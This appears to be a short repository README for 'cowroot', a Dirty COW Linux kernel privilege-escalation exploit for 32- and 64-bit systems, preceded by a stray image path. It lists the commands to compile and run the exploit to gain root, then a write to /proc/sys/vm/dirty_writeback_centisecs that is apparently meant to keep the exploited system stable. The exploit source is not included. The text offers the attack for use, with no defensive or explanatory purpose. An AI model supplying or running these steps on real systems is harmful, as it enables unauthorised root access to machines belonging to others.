 # DirtyCow
Dirtycow exploit for both 32 and 64-bit 

* $ gcc cowroot.c -o cowroot -pthread
* $ ./cowroot
* $ echo 0 > /proc/sys/vm/dirty_writeback_centisecs
